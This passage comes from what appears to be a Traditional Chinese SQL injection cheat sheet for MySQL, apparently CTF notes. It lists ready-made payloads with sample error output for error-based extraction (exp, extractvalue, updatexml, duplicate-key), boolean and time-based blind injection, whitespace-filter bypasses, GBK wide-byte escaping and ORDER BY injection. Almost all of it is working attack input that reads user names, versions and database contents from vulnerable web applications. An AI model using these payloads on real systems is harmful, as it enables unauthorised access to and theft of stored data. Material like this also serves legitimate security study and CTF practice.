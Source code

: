         - 若查詢成功，會返回0
            - `SELECT exp(~(SELECT * FROM (SELECT user())x));`
            - `ERROR 1690(22003):DOUBLE value is out of range in 'exp(~((SELECT 'root@localhost' FROM dual)))'`
        - `select (select(!x-~0)from(select(select user())x)a);`
            - `ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'`
            - MySQL > 5.5.53 不會顯示查詢結果
    - xpath
        - extractvalue
            - `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
        - updatexml
            - `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
    - 主鍵重複
        - `select count(*) from test group by concat(version(),floor(rand(0)*2));`
            - `ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'`
    - 其它函數 (5.7)
        - `select ST_LatFromGeoHash(version());`
        - `select ST_LongFromGeoHash(version());`
        - `select GTID_SUBSET(version(),1);`
        - `select GTID_SUBTRACT(version(),1);`
        - `select ST_PointFromGeoHash(version(),1);`

- Blind Based (Time/Boolean)
    - Boolean
        - 「有」跟「沒有」
        - `id=87 and length(user())>0`
        - `id=87 and length(user())>100`
    - Time
        - 用在啥結果都看不到時
        - `id=87 and if(length(user())>0, sleep(10), 1)=1`
        - `id=87 and if(length(user())>100, sleep(10), 1)=1`
- 繞過空白檢查
    - `id=-1/**/UNION/**/SELECT/**/1,2,3`
    - `id=-1%09UNION%0DSELECT%0A1,2,3`
    - `id=(-1)UNION(SELECT(1),2,3)`

- 寬字節注入
    - `addslashes()`會讓`'`變`\'`
    - 在`GBK`編碼中，中文字用兩個Bytes表示
        - 其他多字節編碼也可
        - 但要低位範圍有包含`0x5c`(`\`)
    - 第一個Byte要>128才是中文
    - `%df'` => `%df\'` => `運'` (成功逃逸)

- Order by注入
    - 可以透過`asc`、`desc`簡單判斷
        - `?sort=1 asc`
        - `?sort=1 desc`
    - 後面不能接UNION
    - 已知字段名 (可以盲注)
        - `?order=IF(1=1, username, password)`
    - 利用報錯
        - `?order=IF(1=1,1,(select 1 union select 2))` 正確
        - `?order=IF(1=2,1,(select 1 union select 2))` 錯誤
        - `?order=IF(1=1,1,(select 1 from information_schema.tables))` 正常
        - `?order=IF(1=2,1,(select 1 from information_schema.tables))` 錯誤
    - Time Based
        - `?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` 正常
        - `?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` sleep 2秒
